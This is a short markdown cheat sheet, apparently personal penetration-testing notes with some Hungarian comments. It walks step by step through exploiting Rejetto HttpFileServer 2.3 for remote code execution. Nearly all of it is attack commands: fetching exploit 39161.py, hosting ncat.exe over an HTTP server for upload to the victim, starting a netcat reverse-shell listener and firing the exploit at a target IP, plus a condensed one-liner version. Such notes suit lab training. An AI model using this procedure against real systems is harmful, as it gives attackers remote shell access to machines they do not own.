 # HFS HttpFileServer 2.3 (Rejetto)
## info
* source: https://systemweakness.com/manual-privilege-escalation-rejetto-http-file-server-windows-rce-1148a025c15a
## manual exploitation
* download ncat.exe from github (we need to host it on the attack machine and the exploit will upload it to the victim machine)
  * https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
* get exploit code
  * $ searchsploit -m 39161.py
* $ nano 39161.py
  * change "ip_addr" to tun0
  * "localport" can be leaved at "443" or can be changed to arbitrary port (this will be the reverse shell port that nc will get connection on)
* $ mv ncat.exe nc.exe
  * rename netcat exe (in the exploit it is nc.exe, at github repo it is ncat.exe)
* $ python -m http.server 80
  * we need it so the exploit can upload the ncat.exe to the victim
  * if we want to change it we probably has to change the commands in the exploit as well (to the appropriate port that we gave to python)
* $ sudo nc -nvlp 443
  * ha 443-at akarunk hasznalni, akkor kell a 'sudo' mindenkepp ele!!!!!
  * ha masik portot akkor nem feltetlen (de akkor meg at kell irni azt az exploit-ban!!)
* $ python2.7 39161.py 10.10.10.2 80
  * ip and port of victim machine
  * python2.7-el mukodott csak (a tobbi python hibat dobott)
## manual exploitation semi-oneliner
<pre>
$ wget https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe; chmod +x ncat.exe; mv ncat.exe nc.exe; searchsploit -m 39161.py; chmod +x 39161.py; ip a
$ sudo python3 -m http.server 80
$ sudo nc -nvlp 443
$ python2 39161.py &lt;target_ip&gt; 80
</pre>
